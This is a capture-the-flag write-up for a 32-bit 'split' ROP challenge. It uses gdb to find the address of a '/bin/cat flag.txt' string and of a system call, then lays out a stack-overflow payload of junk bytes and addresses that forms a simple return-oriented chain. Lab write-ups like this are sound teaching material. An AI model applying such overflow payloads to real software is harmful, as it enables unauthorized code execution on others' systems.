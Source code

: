 # split - 32bit

The string we need (`/bin/cat flag.txt`) is present in the binary.

To find its memory location:

Run `gdb` and break at `main` (`b main`).

Then once the breakpoint has hit run `find <STRING>`. This will display all string locations with `<STRING>` in them.

```
gdb-peda$ find /bin/cat

Searching for '/bin/cat' in: None ranges
Found 1 results, display max 1 items:
split32 : 0x804a030 ("/bin/cat flag.txt")
```

We are provided with a function `usefulFunction`:

```
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	push   ebp
   0x0804864a <+1>:	mov    ebp,esp
   0x0804864c <+3>:	sub    esp,0x8
   0x0804864f <+6>:	sub    esp,0xc
   0x08048652 <+9>:	push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
```

That provides us with a static address for `system` (0x08048657). We not want to use the `/bin/cat flag.txt` as an argument for `system`.

Our payload will have:

```
junk            p32(0x90 x 44 bytes)
system addr     p32(0x08048657)
bin_cat addr    p32(0x0804a030)
exit addr       p32(0x90) [JUNK]
```

Running this allows us to create a ROP chain of sorts that exploits the program!
